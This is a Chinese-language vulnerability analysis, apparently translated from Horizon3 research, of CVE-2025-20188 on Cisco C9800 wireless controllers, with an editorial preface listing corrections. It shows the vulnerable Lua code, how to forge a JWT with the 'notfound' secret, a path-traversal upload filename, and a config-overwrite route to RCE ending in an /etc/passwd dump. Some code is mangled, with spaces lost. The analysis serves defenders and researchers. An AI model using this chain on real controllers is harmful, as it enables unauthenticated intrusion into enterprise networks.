# 【CVE-2025-20188】思科 RCE 漏洞分析

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Cisco IOS XE WLC C9800
- 文献类型：固件差异与RCE链分析译文
- 版本、权限及部署边界：对照C9800CL17.12.03/17.12.04；Out-of-Band AP Image Download服务；notfound fallback须/tmp/nginx_jwt_key缺失
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 17.12.03及更早泛化跨分支不准确，测试版/各系列影响范围应分开；服务开启条件需前置
2. 硬编码是缺文件时签名密钥notfound而非固定JWT，JWTReqId和随机密钥生成不等于认证绕过；已有随机密钥时fallback不可用需说明生命周期
3. 正文先需手动启功能后说明全新默认8443开放，应保存为特定镜像观察并与厂商条件核对，端口开放不自动证明漏洞入口可用
4. Lua/Python/Nginx所有换行与空格损坏如ifnot/whiletruedo/set$、代码末英文残片；随机key示例是失败实验应明确非最终PoC
5. 上传路径遍历→覆盖pvp服务配置→inotify触发是不同步骤，具体覆盖路径/命令仅图；最终/etc/passwd回显不独立证明完整RCE，图未视检
6. Horizon3原研究链接充分，OpenResty是依赖非其框架通用漏洞；缺Cisco官方矩阵，持久配置覆盖需标运行影响与恢复

### 操作风险

上传路径遍历→覆盖pvp服务配置→inotify触发是不同步骤，具体覆盖路径/命令仅图；最终/etc/passwd回显不独立证明完整RCE，图未视检；Horizon3原研究链接充分，OpenResty是依赖非其框架通用漏洞；缺Cisco官方矩阵，持久配置覆盖需标运行影响与恢复

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://horizon3.ai/attack-research/attack-blogs/cisco-ios-xe-wlc-arbitrary-file-upload-vulnerability-cve-2025-20188-analysis/>
- 原文参考链接（未重新核验）：<https://gugesay.com/archives/4395>
- 原文参考链接（未重新核验）：<https://github.com/openresty/lua-nginx-module>

### 归档技术正文

原创 骨哥说事  骨哥说事   2025-06-03 03:02  
  
<table><tbody><tr><td data-colwidth="557" width="557" valign="top" style="word-break: break-all;"><h1 data-selectable-paragraph="" style="white-space: normal;outline: 0px;max-width: 100%;font-family: -apple-system, system-ui, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;letter-spacing: 0.544px;background-color: rgb(255, 255, 255);box-sizing: border-box !important;overflow-wrap: break-word !important;"><strong style="outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="outline: 0px;max-width: 100%;font-size: 18px;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="color: rgb(255, 0, 0);"><strong><span style="font-size: 15px;"><span leaf="">声明：</span></span></strong></span><span style="font-size: 15px;"></span></span></strong><span style="outline: 0px;max-width: 100%;font-size: 18px;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="font-size: 15px;"><span leaf="">文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。</span></span></span></h1></td></tr></tbody></table>

#   
  
#   
  
****# 防走失：https://gugesay.com/archives/4395  
  
******不想错过任何消息？设置星标****↓ ↓ ↓**  
****  
#   
  
  
  
  
# 前言  
  
最近思科发布的一份公告，详细说明了一个影响思科 IOS XE 无线控制器软件版本 17.12.03 及更早版本的漏洞。  
  
该漏洞被描述为未经身份验证的任意文件上传，原因是存在一个硬编码的 JSON Web Token (JWT)，**该漏洞被利用的风险正在快速增加。**  
  
思科 IOS XE 无线局域网控制器 (WLC) 是一种广泛部署的企业级解决方案，用于管理和控制大规模无线网络。  
# 漏洞分析  
  
国外研究者的计划是通过比较一个易受攻击的镜像和一个已修复的镜像来分析漏洞。  
  
首先获取 C9800-CL-universalk9.17.12.03.iso 和 C9800-CL-universalk9.17.12.04.iso，在 ISO 中，发现了两个.pkg 文件，虽然 file 命令没有提供太多信息，但  binwalk 却很有用。  
  
  
  
通过提取和分析文件系统，Web 应用程序的核心组件位于/var/www  
 和/var/scripts  
 下，进一步检查文件发现，该应用程序使用的是 OpenResty，这是一个集成了 Lua 和 Nginx 的 Web 平台。  
  
将易受攻击和已修复的目录加载到 VS Code 的 diffing 插件中，在/var/scripts/lua/features/  
下发现了 ewlc_jwt_verify.lua 和 ewlc_jwt_upload_files.lua 中的显著变化。  
  
鉴于漏洞与 JWT 相关，并且这些文件引用了 JWT 令牌和关联的密钥，这表明这些组件应该就是漏洞所在地。  
  
为了确定这些 Lua 脚本是如何以及在哪里被调用的，研究人员在代码库中执行了一个简单的 grep 搜索。  
  
  
  
在 /usr/binos/conf/nginx-conf/https-only/ap-conf/ewlc_auth_jwt.conf  
 中，可以看到：  
```
location /aparchive/upload {    add_header X-Content-Type-Options nosniff;    add_header X-XSS-Protection "1; mode=block";    charset_types text/html text/xml text/plain text/vnd.wap.wml application/javascript application/rss+xml text/css application/json;    charset utf-8;    client_max_body_size 1536M;    client_body_buffer_size 5000K;    set$upload_file_dst_path"/bootflash/completeCDB/";    access_by_lua_file /var/scripts/lua/features/ewlc_jwt_verify.lua;    content_by_lua_file /var/scripts/lua/features/ewlc_jwt_upload_files.lua;}#Location block for ap spectral recording uploadlocation /ap_spec_rec/upload/ {    add_header X-Content-Type-Options nosniff;    add_header X-XSS-Protection "1; mode=block";    charset_types text/html text/xml text/plain text/vnd.wap.wml application/javascript application/rss+xml text/css application/json;    charset utf-8;    client_max_body_size 500M;    client_body_buffer_size 5000K;    set$upload_file_dst_path"/harddisk/ap_spectral_recording/";    access_by_lua_file /var/scripts/lua/features/ewlc_jwt_verify.lua;    content_by_lua_file /var/scripts/lua/features/ewlc_jwt_upload_files.lua;}
```  
  
这表明后端同时涉及 ewlc_jwt_verify.lua 和 ewlc_jwt_upload_files.lua 的上传相关端点——太棒了！  
  
第二个配置块表明，/ap_spec_rec/upload/ 端点首先由 ewlc_jwt_verify.lua 处理，该文件充当访问阶段处理器。  
  
如果请求通过验证，则会被转发到 ewlc_jwt_upload_files.lua 来处理实际上传，有关每个指令的更多详细信息，可参阅   
OpenResty [1]  
文档。  
  
ewlc_jwt_verify.lua 脚本从 /tmp/nginx_jwt_key 读取一个密钥，并使用它来验证通过 Cookie 头或 jwt URI 参数提供的 JWT。  
  
如果密钥缺失，secret_read 被设置为 notfound，这看起来正是硬编码 JWT 机制的一部分。  
```
-- ewlc_jwt_verify.lualocal jwt       = require"resty.jwt"local jwt_token = ngx.var.arg_jwtif jwt_token then    ngx.header['Set-Cookie'] = "jwt=" .. jwt_tokenelse    jwt_token = ngx.var.cookie_jwtendlocal secret_read = ""local key_fh = io.open("/tmp/nginx_jwt_key","r")if ( key_fh ~= nil )then    io.input(key_fh)    secret_read = io.read("*all")    io.close(key_fh)else    secret_read = "notfound"endlocal jwt_comm_secret = tostring(secret_read)local jwt_obj = jwt:verify(jwt_comm_secret, jwt_token)ifnot jwt_obj["verified"] then    local site = ngx.var.scheme .. "://" .. ngx.var.http_host;    local args = ngx.req.get_uri_args();    ngx.status = ngx.HTTP_UNAUTHORIZED    ngx.say(jwt_obj.reason);    ngx.exit(ngx.HTTP_OK)end
```  
  
为了确定 JWT 最初是在哪里生成，通过运行 grep 命令，最终找到/var/scripts/lua/features/ewlc_jwt_get.lua：  
```
-- ewlc_jwt_get.lualocal jwt = require"resty.jwt"local json = require'cjson'local req_id = ngx.req.get_headers()["JWTReqId"]local tcount = os.time()--Give expiration time as 5 mintcount = tcount+300local secret = ""local secret_sz =  64local in_fh = io.open("/tmp/nginx_jwt_key","r")if ( in_fh ~= nil )then    io.input(in_fh)    secret = io.read("*all")    io.close(in_fh)else    localrandom = require"resty.random".bytes    secret = random(secret_sz, true)    if secret == nilthen        secret = random(secret_sz)    end    local key_fh = io.open("/tmp/nginx_jwt_key","w")    if ( key_fh ~= nil ) then        io.output(key_fh)        io.write(secret)        io.close(key_fh)    endendlocal jwt_comm_secret = tostring(secret)--Generate the jwt keylocal jwt_gen_token = jwt:sign(        jwt_comm_secret,        {            header={typ="JWT", alg="HS256"},            payload={reqid=req_id, exp=tcount }        }    )local response = {token = jwt_gen_token}return ngx.say(json.encode(response))
```  
  
此脚本从 /tmp/nginx_jwt_key 读取密钥（如果存在）；否则，通过写入一个 64 字节的字符串来生成一个，然后，它使用 jwt:sign()  
 创建一个 JWT， 其包含 JWTReqId 头和一个过期时间戳。  
  
为了更好地理解流程，让我们尝试手动构建 JWT，首先，我们需要知道 JWTReqId 来自哪里。可以通过进一步在代码库中 grep 来找到：  
  
  
  
有趣的是，头部是在一个 ELF 共享库中构建的：/usr/binos/lib64/libewlc_apmgr.so  
。  
  
为了深入挖掘，在 IDA Pro 中搜索 JWTReqId 字符串，从而找到 ewlc_apmgr_jwt_request 函数，从而更加清楚地了解 JWT 的内部生成方式。  
  
  
  
上面的汇编代码显示头部字符串是使用 snprintf 构建的，一个有用的技巧是利用 LLM 来调查 s 变量的来源：  
  
  
  
交叉引用查看，对 ewlc_apmgr_jwt_request 的调用只有一处引用！  
  
  
  
非常好！JWTReqId 头部包含 cdb_token_request_id1。  
  
可以尝试修改并运行 Lua 脚本来生成 JWT，或者将其转换为 Python：  
```
import osimport timeimport jwttcount = int(time.time()) + 300req_id = 'cdb_token_request_id1'jwt_comm_secret = os.urandom(64)jwt_gen_token = jwt.encode(    {"reqid": req_id, "exp": tcount},    jwt_comm_secret,    algorithm="HS256",    headers={"typ": "JWT"})print(jwt_gen_token)Let’s try the upload endpoint with t
```  
  
尝试使用 JWT 来测试上传端点：  
  
  
  
奇怪，居然没成功。  
  
回想后发现，漏洞公告中提到需要启用“带外 AP 图像下载”功能，经过一番研究，发现可以在“Configuration”→“Wireless Global”下的“ AP Image Upgrade” 中开启它。  
  
  
  
这看起来像是一个运行在端口 8443 上的独立服务，开启它，并使用新端口重新尝试了我们之前的请求。  
  
  
  
成功收到响应！这是一个 401 未授权错误，并提示签名不匹配。  
  
这是可以预料的，因为当 JWT 没有使用正确的密钥签名时，jwt:verify()  
 会失败，为了继续，需要使用 notfound 密钥重新生成 JWT。  
  
  
  
成功！端点由位于 /var/scripts/lua/features/ewlc_jwt_upload_files.lua  
 的脚本处理。  
```
-- ewlc_jwt_upload_files ... if method == "POST" then    whiletruedo        local typ, req, err = form:read()        ifnot typ then            ngx.say("failed to read: ", err)            return        end        if typ == "header"then            local file_name = getFileName(req)            ifnot utils.isNil(file_name) then                ifnot file then                    file, err = io.open(location..file_name, "w+")                    ifnot file then                        return                    end                end            end        elseif typ == "body"then            if file then                file:write(req)            end        elseif typ == "part_end"then            if file then                file:close()                file = nil            end        elseif typ == "eof"then            break        end    endelse    ngx.say("Method Not Allowed")    ngx.exit(405)end
```  
  
文件将被写入位置 .. file_name，其中位置定义为配置文件中的 /harddisk/ap_spectral_recording/  
，如下所示：set $upload_file_dst_path /harddisk/ap_spectral_recording/;  
  
没有任何东西阻止我们使用 .. 进行路径遍历，所以下一个问题是：我们应该将文件放在哪里？  
  
访问 https://10.0.23.70:8443/ 显示了默认的 OpenResty 主页，该页面从 /usr/binos/openresty/nginx/html  
 提供，因此这是一个逻辑的目标位置——我们将尝试将文件放在这里，值得注意的是，该服务不需要身份验证，使其成为利用上传路径的理想候选。  
  
filename="../../usr/binos/openresty/nginx/html/foo.txt"  
  
  
# RCE  
  
现在只需建立一种可靠的方法，利用此上传功能就能够实现RCE，可能存在多种方法来实现这一点。  
  
一种途径是使用 inotifywait 的服务，这是一个允许监控指定目录中文件事件的工具。  
  
在深入研究这些服务后，我们发现了一个内部进程管理服务（pvp.sh），该服务等待文件写入到特定目录，一旦检测到变化，它可以根据服务配置文件中指定的命令触发服务重新加载。  
  
  
  
pvp.sh 代码片段  
  
简而言之，为了实现远程代码执行（RCE），我们需要：  
- 用我们自己的命令覆盖现有的配置文件  
  
- 上传一个新文件以导致服务重新加载  
  
- 检查是否成功  
  
  
  
修改后的配置文件  
  
  
  
发送请求  
```
# curl -k https://10.0.23.70/webui/login/etc_passwdroot:*:0:0:root:/root:/bin/bashbinos:x:85:85:binos administrative user:/usr/binos/conf:/usr/binos/conf/bshell.shbin:x:1:1:bin:/bin:/sbin/nologindaemon:x:2:2:daemon:/sbin:/sbin/nologinadm:x:3:4:adm:/var/adm:/sbin/nologinlp:x:4:7:lp:/var/spool/lpd:/sbin/nologinsync:x:5:0:sync:/sbin:/bin/syncshutdown:x:6:0:shutdown:/sbin:/sbin/shutdownhalt:x:7:0:halt:/sbin:/sbin/haltmail:x:8:12:mail:/var/spool/mail:/sbin/nologinftp:x:14:50:FTP User:/var/ftp:/sbin/nologinnobody:x:99:99:Nobody:/:/sbin/nologindbus:x:81:81:System message bus:/:/sbin/nologinsshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologinrpc:x:32:32:Portmapper RPC user:/:/sbin/nologinrpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologinnfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologinmailnull:x:47:47::/var/spool/mqueue:/sbin/nologinsmmsp:x:51:51::/var/spool/mqueue:/sbin/nologinmessagebus:x:998:997::/var/lib/dbus:/bin/falseavahi:x:997:996::/var/run/avahi-daemon:/bin/falseavahi-autoipd:x:996:995:Avahi autoip daemon:/var/run/avahi-autoipd:/bin/falseguestshell:!:1000:1000::/home/guestshell:qemu:x:1001:1001:qemu::/sbin/nologindockeruser:*:1000000:65536:Dockeruser:/:/sbin/nologin
```  
  
**注意：**在全新 WLC 安装测试中，端口 8443 默认是开放的——即使没有主动启用 AP Image Upgrade 功能。  
  
这表明该服务可能在默认安装中启用，并且易受攻击的端点至少在测试的 C9800 系列版本上是可访问的。  
# 缓解措施  
  
缓解措施的最佳选项是升级到最新版本，因为思科已经修复了该问题。  
  
如果不可行，思科表示管理员可以禁用带外 AP 镜像下载功能，禁用此功能后，AP 镜像下载将使用 CAPWAP 方法进行 AP 镜像更新功能，这不会影响 AP 客户端状态。思科强烈建议在执行升级之前实施此缓解措施。  
# 结论  
  
分析 Cisco IOS XE WLC 中的该漏洞揭示了硬编码的密钥、输入验证不足以及暴露的端点如何导致严重的安全风险——即使在广泛部署的企业基础设施中同样如此。  
  
原文：https://horizon3.ai/attack-research/attack-blogs/cisco-ios-xe-wlc-arbitrary-file-upload-vulnerability-cve-2025-20188-analysis/  
### 参考资料  
  
[1]   
OpenResty : https://github.com/openresty/lua-nginx-module  
  
- END -  
  
**加入星球，随时交流：**  
  
**********（会员统一定价）：128元/年（0.35元/天）******  
  
  
**感谢阅读，如果觉得还不错的话，欢迎分享给更多喜爱的朋友～**  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
